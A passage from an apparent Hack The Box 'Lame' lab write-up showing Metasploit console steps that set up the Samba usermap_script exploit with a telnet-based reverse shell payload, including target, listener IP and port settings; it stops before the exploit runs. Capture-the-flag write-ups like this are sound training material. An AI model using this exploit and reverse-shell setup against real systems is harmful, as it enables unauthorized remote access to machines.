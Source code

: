 I found I had limited success with the default payload (a reverse shell spawned
with netcat). Instead I loaded `cmd/unix/reverse`, which uses `telnet` to
construct a _double_ reverse shell.

```shell-session
[msf](Jobs:0 Agents:0) exploit(multi/samba/usermap_script) >> set PAYLOAD cmd/unix/reverse
PAYLOAD => cmd/unix/reverse
```

Metasploit lets us view the options for the loaded exploit:

```shell-session
[msf](Jobs:0 Agents:0) exploit(multi/samba/usermap_script) >> show options

Module options (exploit/multi/samba/usermap_script):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS                   yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/U
                                      sing-Metasploit
   RPORT   139              yes       The target port (TCP)


Payload options (cmd/unix/reverse):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  157.245.41.35    yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic


```

Metasploit has configured a few of these options for us, but we need to provide
the rest and change some of the defaults:

* The value for `RHOSTS` will be the hostname of the machine we're attacking,
  i.e. `lame.htb`.
* The `LHOST` value is the IP of the interface on our machine. It's used by the
  payload to construct the reverse shell. The default value is taken from the
  wrong network interface, so we'll have to update that.
* Finally, the value of `LPORT`, 4444, is not 1337 enough, so we'll need to
  change that...

```shell-session
[msf](Jobs:0 Agents:0) exploit(multi/samba/usermap_script) >> set RHOSTS lame.htb
RHOSTS => lame.htb
[msf](Jobs:0 Agents:0) exploit(multi/samba/usermap_script) >> set LHOST 10.10.14.78
LHOST => 10.10.14.78
[msf](Jobs:0 Agents:0) exploit(multi/samba/usermap_script) >> set LPORT 1337
LPORT => 1337
```
